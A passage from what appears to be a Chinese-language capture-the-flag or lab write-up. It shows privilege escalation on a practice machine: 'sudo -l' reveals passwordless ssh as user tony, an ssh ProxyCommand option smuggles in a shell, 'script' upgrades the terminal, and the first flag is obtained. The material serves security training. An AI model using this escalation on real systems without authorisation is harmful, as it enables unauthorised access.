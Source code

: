 失败



### 执行sudo -l

```
sudo -l
```

![image-20250324185551552](assets/image-20250324185551552.png)

无密码以tony身份执行ssh



### ssh提权

```
sudo -u tony ssh -o ProxyCommand=';sh 0<&2 1>&2' x
whoami
```

![image-20250324185637602](assets/image-20250324185637602.png)



### script转换终端

```
/usr/bin/script -qc /bin/bash /dev/null
```

![image-20250324185701799](assets/image-20250324185701799.png)



### 得到第一个flag

![image-20250324185751023](assets/image-20250324185751023.png)
